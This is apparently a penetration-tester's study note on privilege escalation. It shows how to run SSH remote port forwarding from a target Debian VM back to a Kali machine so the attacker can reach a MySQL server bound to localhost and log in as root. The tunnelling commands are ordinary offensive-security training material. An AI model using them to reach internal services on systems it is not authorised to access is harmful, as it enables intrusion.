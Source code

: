 
2024-06-14 10:55

Source: #privesc 

Tags: [[linux]]

For some reason we were not able to run the [[mysql]] client from the debian VM or we wanted to run some commands against the mysql server from our kali machine  

**Adversary  machine:**

- Determine which port mysql listening on using `netstat -nl`
- Since 3306 is default port for mysql our desired local address is shown as `127.0.0.1:3306`
- Note that it is bound to the localhost address meaning we can't access it externally we can fix this by using [[ssh (22 port)]] port forwarding .

```
ssh -R 4444:127.0.0.1:3306 root@<kali-ip>

4444 on my kali machine 
<kali-ip> is our kali machines ip
```

**Kali machine :**

Here run mysql command and instruct it to connect to port 4444 of my local kali using the root user 
```
mysql -u root -h 127.0.0.1 -P 4444
```
traffic is then forwarded over the ssh connection, this allows you to connect to the debian mysql server remotely 

to check the hostname in mysql use 
`select @@hostname;`


### References
[[Privilege Escalation]]

[How to Set up SSH Tunneling (Port Forwarding) | Linuxize](https://linuxize.com/post/how-to-setup-ssh-tunneling/)